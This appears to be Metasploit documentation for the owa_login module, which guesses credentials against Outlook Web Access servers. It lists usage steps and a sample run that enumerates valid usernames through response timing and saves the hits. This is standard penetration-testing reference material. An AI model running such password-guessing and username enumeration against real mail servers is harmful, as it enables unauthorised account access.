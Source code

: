 This module tests credentials on OWA 2003, 2007, 2010, 2013, and 2016 servers.

NOTE: This module assumes that login attempts that take a long time (>1 sec) to
return are using a valid domain username. This methodology does not work when
passing a full email address (user@domain.com). Full email addresses will not
be saved as potentially valid usernames unless we get a successful login.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/owa_login```
2. Do: ```set RHOSTS [IP]```
3. Configure a user and password list by setting either `USERNAME`, `PASSWORD`, `USER_FILE`, or `PASS_FILE`.
4. Do: ```run```

## Scenarios

```
msf5 auxiliary(scanner/http/owa_login) > run

[*] webmail.hostingcloudapp.com:443 OWA - Testing version OWA_2013
[+] Found target domain: HOSTINGCLOUDAPP
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.267791 'HOSTINGCLOUDAPP\administrator' : 'password': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.273841 'HOSTINGCLOUDAPP\administrator' : 'password1': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.22
[+] server type: EXCH2016MBX01
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.270796 'HOSTINGCLOUDAPP\administrator' : 'fido': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.22
[+] server type: EXCH2016MBX01
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.046935 'HOSTINGCLOUDAPP\johndoe' : 'password' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.073391 'HOSTINGCLOUDAPP\johndoe' : 'password1' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.038717 'HOSTINGCLOUDAPP\johndoe' : 'fido' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.289186 'HOSTINGCLOUDAPP\bob' : 'password': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.270616 'HOSTINGCLOUDAPP\bob' : 'password1': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.275251 'HOSTINGCLOUDAPP\bob' : 'fido': SAVING TO CREDS
[*] Auxiliary module execution completed

```